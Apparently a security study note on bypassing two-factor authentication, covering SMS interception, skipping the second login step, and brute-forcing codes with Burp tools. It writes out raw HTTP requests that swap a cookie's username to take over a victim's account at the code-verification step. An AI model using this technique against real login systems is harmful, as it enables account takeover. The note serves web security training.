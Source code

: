 
## Multi-Factor Authentication

Two-Factor Authentication Tokens
- Some websites send a verification code via a dedicated device or app (such as Google Authenticator)
- Other websites send a code via text message which is open to abuse
	Code is being transmitted via SMS rather than by the device itself
	Code can be intercepted via SIM swapping among other means

Bypassing Two-Factor Authentication
- Try to go to "logged in pages" without entering the code -- you might be able to bypass MFA completely Flawed Two-Factor Verification Logic

1. User logs in with normal creds
```
POST /login-steps/first
HTTP/1.1
Host: vulnerable-website.com
...
username=carlos&password=qwerty
```

2. User is assigned a cookie that relates to their account, before being taken to the second step of the login process
```
HTTP/1.1 200 OK
Set-Cookie: account=carlos
GET /login-steps/second
HTTP/1.1
Cookie: account=carlos
```

3. When submitting the verification code, the request uses this cookie to determine which account the user is trying to access
```
POST /login-steps/second
HTTP/1.1
Host: vulnerable-
website.com
Cookie: account=carlos
...
verification-code=123456
```

4. You can change the "account" cookie to any username when submitting the code
```
POST /login-steps/second
HTTP/1.1
Host: vulnerable-
website.com
Cookie: account=victim-user
...
verification-code=123456
```


Brute-forcing 2FA Verification Codes
- This can be automated by creating macros for Burp Intruder
- This can also be done with the Turbo Intruder extension